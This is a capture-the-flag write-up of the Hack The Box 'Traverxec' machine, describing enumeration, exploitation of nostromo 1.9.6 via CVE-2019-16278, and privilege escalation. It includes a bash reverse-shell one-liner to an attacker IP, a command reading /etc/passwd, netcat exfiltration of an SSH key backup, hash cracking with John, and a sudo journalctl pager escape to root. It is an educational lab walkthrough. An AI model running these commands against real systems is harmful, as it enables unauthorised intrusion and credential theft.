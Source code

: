 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6bd1fabe-e487-4657-90a4-a896dae1d1e7)

https://app.hackthebox.com/machines/Traverxec

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I began the enumeration using a quick rust scan to check for open ports and services:

```bash
sudo rustscan -a 10.10.10.165 -- -sC -sV -vv -oN traver_nmap
```

```Rust
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVWo6eEhBKO19Owd6sVIAFVCJjQqSL4g16oI/DoFwUo+ubJyyIeTRagQNE91YdCrENXF2qBs2yFj2fqfRZy9iqGB09VOZt6i8oalpbmFwkBDtCdHoIAZbaZFKAl+m1UBell2v0xUhAy37Wl9BjoUU3EQBVF5QJNQqvb/mSqHsi5TAJcMtCpWKA4So3pwZcTatSu5x/RYdKzzo9fWSS6hjO4/hdJ4BM6eyKQxa29vl/ea1PvcHPY5EDTRX5RtraV9HAT7w2zIZH5W6i3BQvMGEckrrvVTZ6Ge3Gjx00ORLBdoVyqQeXQzIJ/vuDuJOH2G6E/AHDsw3n5yFNMKeCvNNL
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLpsS/IDFr0gxOgk9GkAT0G4vhnRdtvoL8iem2q8yoRCatUIib1nkp5ViHvLEgL6e3AnzUJGFLI3TFz+CInilq4=
|   256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJ16OMR0bxc/4SAEl1yiyEUxC3i/dFH7ftnCU7+P+3s
80/tcp open  http    syn-ack ttl 63 nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan results showed two open ports, 22 for SSH and 80 for HTTP. The SSH service is running OpenSSH 7.9p1 on Debian 10, while the HTTP service is running nostromo version 1.9.6.

I then checked the searchsploit database for any available exploits related to nostromo & searchsploit results showed three exploits available for nostromo.:

```bash
searchsploit nostrormo
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f5d6e281-0d88-4215-9b8d-82209ced2dc6)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

After checking the results of searchsploit, I noticed that only 2 exploits are related to the relevant version, and out of these 2, only 1 is a Python exploit. The other one is a Metasploit exploit, which I prefer not to use. To proceed without Metasploit, I downloaded the Python exploit and made some modifications to the script as it was showing errors while running.

After making the necessary changes, I executed the script to exploit the CVE-2019-16278 vulnerability on the target machine:

```python
python cve-2019-16278.py 10.10.10.165 80 'cat /etc/passwd'
```
The script successfully executed, and I obtained the output shown in the screenshot:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a24e9815-044f-402b-b87b-7e3d7e90c107)

While exploring the contents of the **/etc/passwd** file, I discovered a user named "david." To gain a reverse shell on the target machine, I used a convenient bash one-liner and executed it through the python script. Within moments, I received a reverse shell in my netcat listener, confirming successful access to the system. 🙂

```python
python cve-2019-16278.py 10.10.10.165 80 'bash -c "bash -i >& /dev/tcp/10.10.14.128/53 0>&1"'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/3b02ff8a-35ab-4d78-b109-108963928749)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## User access:

After gaining initial access as the "www-data" user, my next objective was to escalate privileges and gain access to user "david." I began by manually searching the system and discovered hashed credentials for "david" in the "/var/nostromo/conf" directory.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e1ff9641-baee-4355-91e9-7b302ca5dfb2)

I successfully cracked the hash and obtained the cleartext password:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9393b618-85b9-4d42-ab73-9fe7db127132)

My attempts to switch to "david" from the "www-data" user and to log in via SSH using the cracked password were unsuccessful.😕

However, while exploring the nhttpd [documentation](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd), I came across valuable information:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/72ae33a3-9e70-4aad-8ce7-9b29691d7f78)

Following this logic, I checked for the "~david" path and found that "david" has his home directory hosted on the web::

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/59e62377-8aa1-4308-b5a0-9a6a76c09af9)

Subsequently, I explored the "nhttpd.conf" file and discovered the "homedirs_public" folder at "public_www":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e0f70c5c-d579-4147-b234-05aa203a6b15)

So, I moved into the David home directory & tried to list out the files but the current user doesn't have access for the David files, however I was able to cd into "public_www" folder located inside "David" home directory:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/0da7de0d-8a8a-4389-b96f-43bd99076013)

Within "David's" home directory, I encountered a folder named "protected-file-area" that contained a backup file named "backup-ssh-identity-files.tgz":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/4c5e4650-68d0-4b12-b99c-dfe7ddafa84b)

I transferred this backup file to my Kali host using netcat:

```bash
#from the victim machine
nc <kali IP> <Port> < backup-ssh-identity-files.tgz
```
```bash
#from my attacking machine
nc -lnvp <port> > output-file.tgz
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/c1d9a98f-87d4-464a-82f9-161c2f05a53d)

Once the transfer was complete, I extracted the contents of the "backup-ssh.tgz" file using the following command:

```bash
tar xzvf backup-ssh.tgz
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5d34a73a-506f-4158-aba7-65484c993de6)

Among the extracted files, I found the "id_rsa" SSH private key. 

I changed the SSH private key file permission using "chmod 600" & tried to login with this key. However, the key was encrypted and required a password for use.

To proceed, I used John The Ripper to crack the SSH private key password:

```bash
ssh2john id_rsa > john_rsa

john john_rsa -w=/usr/share/wordlist/rockyou.txt
```

Using this method, I quickly obtained the clear-text credentials:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/4ba889f3-e112-447d-9a71-0b8164880ee8)

With the cracked credentials, I successfully logged in as "david" and retrieved the user flag. Mission accomplished! (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/280cfb58-a11b-4191-aeca-6c1f3d056cad)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privilege Escalation:

After gaining access to user "david," I explored the contents of David's home directory and found an interesting file named "server-stats.sh" in the "/bin" folder:

File contains below code:

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
The script runs the "journalctl" command with sudo privileges in the last line of the script, which piqued my interest. After reviewing the GtfoBins page for "journalctl," I discovered that it invokes the default pager, often "less," which provides an opportunity for privilege escalation.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/82e18d27-9f92-4b39-9061-eebf8a005267)

While running the last line of code manually, it isn't loading the less pager.

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

Upon executing the last line of the script manually, the less pager didn't load as expected. However, I found a clever solution: by minimizing the terminal window's size, the journalctl command would be unable to display the required 5 lines, triggering the loading of the less pager.

Executing the following command with a minimized terminal loaded the less pager:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9bad58f8-959c-4da0-92c5-ec0930d0af18)

Once the less pager was loaded, I used the command "!/bin/bash" to execute a bash shell, effectively gaining root access. (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f553be3b-5da0-439f-9bf8-9595058a95ad)

